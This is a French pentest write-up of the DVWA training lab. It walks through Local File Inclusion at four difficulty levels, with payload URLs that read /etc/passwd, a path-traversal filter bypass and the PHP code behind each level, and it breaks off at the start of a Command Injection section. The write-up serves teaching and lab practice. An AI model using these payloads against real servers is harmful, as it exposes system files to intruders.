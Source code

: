 # Pentest en utilisant DVWA  

>author : Sacha Besser  
  
# 1. Local File Inclusion
Une Local File Inclusion (LFI) est une vulnérabilité web qui permet à un attaquant de forcer un site à inclure et afficher des fichiers locaux présents sur le serveur.  

Cette faille se produit lorsque le site web inclut un fichier sans bien vérifier ou filtrer ce que l’utilisateur peut choisir.  

Par exemple, un site utilise une URL comme :
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=file.php
```
Ici, le fichier file.php est inclus par la variable page.  

Si l’entrée utilisateur n'est pas sécurisée, un attaquant pourrait manipuler l'URL pour inclure d'autres fichiers locaux :
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=/etc/passwd
```
## 1.1 Premier niveau – low
Nous avons une page toute simple avec trois fichiers` http://34.163.97.167/DVWA/vulnerabilities/fi/?page=include.php `  

![image](images/lfi/1.png)  

Nous allons donc simplement essayer de modifier le parametre pour inclure une autre page par exemple `/etc/passwd`  
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=/etc/passwd
```
![image](images/lfi/2.png)  

On voit que la faille est bien présente puisqu’elle permet d’afficher n’importe quel fichier sur le serveur.  
On peut donc en quelque sorte en déduire le code php qui est présent sur le serveur.    
```
<?php  
$page = $_GET['page'];
include($page); ?>
```
Cela serait probablement quelque chose comme affiche ci-dessus. C’est-à-dire un simple paramètre `GET` sans aucune structure de contrôle.

## 1.2 Deuxieme niveau - medium

Pour cette deuxieme partie, nous effectuons quelque test et nous pouvons remarquer que `../` est filtre.  
Par Exemple :  
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=../etc/passwd
```
Le resultat ci dessous montre que les `..` ont ete filtre, ainsi le serveur n'a pas affiche le fichier que l'on voulait.
![image](images/lfi/3.png)  

C'est donc assez facile ici de contourner le filtre, il suffit juste de ne pas utiliser `..`, par exemple nous pouvons acceder a la racine simplement en utilisant `/`.

Ainsi en utilisant la meme commande, on arrive a la solution :  
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=/etc/passwd
```
![image](images/lfi/2.png)

On peux donc en deduire ce que le serveur a comme code :  
```
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?>
```
Pour se faire nous allons voir la configuration de `dvwa` et on remarque que notre hypthese etait bonne, les `../` sont bien filtre mais aussi les `http://` et `https://` qui sont retires et remplaces par une chaine vide.
## 1.3 Troisieme niveau - high
Pour la troisieme partie on va reessayer d'executer la meme commande pour voir comment le serveur reagis
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=/etc/passwd
```
Cette fois ci le serveur ne nous affiche pas le fichier voulus, mais la phrase `ERROR: File not found!`

Il doit donc y avoir encore plus de filtre ou une strucuture de controle qui a ete ajoute

Ici, n'ayant pas vraiment d'idee pour trouver la solution nous sommes alles directement voir le code php pour comprendre ce que le serveur filtrait ou non.  

```
<?php

$file = $_GET['page'];

if( !fmatch( "file", $file ) && $file != "include.php" ) {
  // This isn't the page we want!
  echo "ERROR: File not found!";
  exit;
}

?>
```
On peux voir que le serveur verifie si le fichier que l'on recupere commence par `"file"`, ceci est en principe une bonne idee puisque les fichiers etant nomme `file1.php`, `file2.php` ..., le script est cense filtre tous les autres. 

Or en ayant compris cela, on en deduis que si on commence chaque "injection" par `file`, on contournera le filtre.  

Par exemple essayons ceci :  
```
http://34.163.97.167/DVWA/vulnerabilities/fi/?page=file/../../../../../../../../../etc/passwd
```

Et encore une fois, nous arrivons a afficher le resultat de `/etc/passwd`.  

![imaegs](/images/lfi/4.png)

## 1.4 Niveau Impossible

```
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
$configFileNames = [
    'include.php',
    'file1.php',
    'file2.php',
    'file3.php',
];

if( !in_array($file, $configFileNames) ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```
Analysons rapidement ce code.  
Le fichier est recupere dans la variable `file` puis on voit qu'il est compare a une liste contenant tous les fichiers. C'est clairement la meilleure methode puisque ici, soit le nom du fichier est egale a celui qui est dans la liste et le fichier est affiche ou il ne l'est pas et alors le message `ERROR : File not found` est affiche.

# 2. Command Injection

La Command Injection est une vulnérabilité de sécurité où un attaquant peut injecter et exécuter des commandes système dans une application, souvent via une interface utilisateur. Cette vulnérabilité permet à un attaquant d'exécuter des commandes directement sur le serveur ou la machine hôte qui exécute l'application.

Lorsqu'une application prend des données en entrée de l'utilisateur (par exemple via un formulaire web) et les utilise sans validation ou filtre, un attaquant peut insérer une commande système malveillante dans l'entrée. Si l'application passe cette entrée directement à un interpréteur de commande (comme le shell Linux), l'attaquant peut exécuter des commandes non autorisées sur le serveur.

## 2.1 Premier niveau - low
